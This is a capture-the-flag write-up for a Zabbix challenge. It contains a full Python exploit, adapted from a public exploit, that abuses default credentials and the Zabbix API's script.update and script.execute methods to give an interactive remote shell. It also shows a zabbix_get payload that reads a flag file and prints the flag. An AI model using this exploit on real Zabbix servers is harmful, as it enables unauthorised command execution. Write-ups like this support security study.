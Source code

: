 ## fun_zabbix

After we compose docker, we can access 8080 port with running zabbix. During try somthing, sapra found https://www.exploit-db.com/exploits/39937 and it worked successfully. Now we got rce.

P.S I changed rce payload little

```python
import requests
import json
import readline

ZABIX_ROOT = 'http://vuln.live:8080'    ### Zabbix IP-address
url = ZABIX_ROOT + '/api_jsonrpc.php'    ### Don't edit

login = 'Admin'        ### Zabbix login
password = 'zabbix'    ### Zabbix password
hostid = '10084'    ### Zabbix hostid

### auth
payload = {
       "jsonrpc" : "2.0",
    "method" : "user.login",
    "params": {
        'user': ""+login+"",
        'password': ""+password+"",
    },
       "auth" : None,
    "id" : 0,
}
headers = {
    'content-type': 'application/json',
}

auth  = requests.post(url, data=json.dumps(payload), headers=(headers))
print auth
auth = auth.json()

while True:
    cmd = raw_input('\033[41m[zabbix_cmd]>>: \033[0m ')
    if cmd == "" : print "Result of last command:"
    if cmd == "quit" : break

### update
    payload = {
        "jsonrpc": "2.0",
        "method": "script.update",
        "params": {
            "scriptid": "1",
            "command": ""+cmd+""
        },
        "auth" : auth['result'],
        "id" : 0,
    }

    cmd_upd = requests.post(url, data=json.dumps(payload), headers=(headers))

### execute
    payload = {
        "jsonrpc": "2.0",
        "method": "script.execute",
        "params": {
            "scriptid": "1",
            "hostid": ""+hostid+""
        },
        "auth" : auth['result'],
        "id" : 0,
    }

    cmd_exe = requests.post(url, data=json.dumps(payload), headers=(headers))
    cmd_exe = cmd_exe.json()
    try:
        print cmd_exe["result"]["value"]
    except:
        print 'No such command.'
```

When I did `reverse shell`, I realized that we have `zabbix_get` in our dockers basically.

So, we started to find some method using zabbix_get and finally found `vfs.file.contents`.



So, our final payload was `zabbix_get -s zabbix-agent-secret -k vfs.file.contents[/flag/flag.txt]`

`n1ctf{cefa715f75e28670afe7d4bf654e00e4}`